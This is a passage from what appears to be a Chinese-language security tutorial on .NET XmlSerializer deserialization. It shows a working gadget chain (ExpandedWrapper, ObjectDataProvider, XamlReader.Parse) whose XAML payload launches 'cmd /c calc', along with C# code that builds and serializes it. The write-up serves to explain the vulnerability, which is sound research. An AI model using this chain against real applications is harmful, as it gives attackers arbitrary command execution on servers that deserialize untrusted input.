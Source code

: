 ```c#
							// 设置objectInstance属性值
								objectDataProvider.ObjectInstance = this.Read1_Object(false, true);
								array[2] = true;
							}
							else if (!array[3] && (base.Reader.LocalName == this.id10_MethodName && base.Reader.NamespaceURI == this.id2_Item))
							{
							// 设置 MethodName属性值 将会触发 MehtodName的set访问器 从而触发命令执行
								objectDataProvider.MethodName = base.Reader.ReadElementString();
								array[3] = true;
							}
				...
		}
```
到这里我们知道了通过`ExpandWrapper`包装`ObjectDataProvider`可以成功调用命令执行，但是这里有个问题就是我们的示例中调用的方法时自定义类`ProcessT`的`eval`方法，而在生产环境中是否存在这样一个可以进行命令执行的方法呢？  
可能会有，但是这里不讨论，这里我们通过另一种方式解决`Process`不能序列化的问题。  
通过前面的内容我们知道通过`ObjectDataProvider`可以调用任意类的任意方法，那么如果我们可以通过`XmlSerializer -> ObjectDataProvider -> xxx类xx方法 -> objectDataProvider -> Process`不一样可以解决问题？  
这里需要满足的条件时`xxx类xxx方法`在调用到`ObjectDataprovider`的过程中不会出现前面提到的某些类不能序列化的问题。  
这里找到的类以及方法为`XamlReader`的`parse`方法，该方法可以将`xaml`字符串反序列化为对应的数据对象。 
使用如下格式的`payload`边可以触发命令执行。  
```Xml
<ResourceDictionary 
                    xmlns=""http://schemas.microsoft.com/winfx/2006/xaml/presentation"" 
                    xmlns:d=""http://schemas.microsoft.com/winfx/2006/xaml"" 
                    xmlns:b=""clr-namespace:System;assembly=mscorlib"" 
                    xmlns:c=""clr-namespace:System.Diagnostics;assembly=system"">
                <ObjectDataProvider d:Key="""" ObjectType=""{d:Type c:Process}"" MethodName=""Start"">
                    <ObjectDataProvider.MethodParameters>
                        <b:String>cmd</b:String>
                        <b:String>/c calc</b:String>
                    </ObjectDataProvider.MethodParameters>
                </ObjectDataProvider>
            </ResourceDictionary>
```
可用如下代码进行测试
```c#
ExpandedWrapper<XamlReader, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();
            expandedWrapper.ProjectedProperty0.ObjectInstance = new XamlReader();
            expandedWrapper.ProjectedProperty0.MethodName = "Parse";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add(@"<ResourceDictionary 
                    xmlns=""http://schemas.microsoft.com/winfx/2006/xaml/presentation"" 
                    xmlns:d=""http://schemas.microsoft.com/winfx/2006/xaml"" 
                    xmlns:b=""clr-namespace:System;assembly=mscorlib"" 
                    xmlns:c=""clr-namespace:System.Diagnostics;assembly=system"">
                <ObjectDataProvider d:Key="""" ObjectType=""{d:Type c:Process}"" MethodName=""Start"">
                    <ObjectDataProvider.MethodParameters>
                        <b:String>cmd</b:String>
                        <b:String>/c calc</b:String>
                    </ObjectDataProvider.MethodParameters>
                </ObjectDataProvider>
            </ResourceDictionary>
            ");
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<XamlReader, ObjectDataProvider>));
            xml.Serialize(writer, expandedWrapper);
            memoryStream.Position = 0;
```